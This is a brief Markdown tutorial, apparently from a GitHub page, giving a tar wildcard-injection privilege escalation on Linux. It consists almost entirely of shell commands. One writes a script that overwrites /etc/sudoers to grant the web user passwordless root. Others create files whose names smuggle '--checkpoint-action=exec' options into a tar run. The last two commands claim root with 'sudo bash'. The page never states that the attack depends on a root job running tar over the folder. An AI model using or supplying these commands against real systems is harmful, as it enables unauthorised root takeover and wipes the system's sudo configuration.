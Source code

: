 - - -
## Exploiting Tar ( 3rd method )  : 

> [! NOTE ] 
> Replace “**/var/www/html** ” with the location where you want to save Tar files.

> [! NOTE ] 
> Replace “**www-data**” with your current user.

```sh 
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > r00t.sh
```

```sh
echo "/var/www/html" > "--checkpoint-action=exec=sh r00t.sh"
```

```sh
echo "/var/www/html" > --checkpoint=1
```

```sh
sudo -l
```

```sh
sudo bash
```

- - -
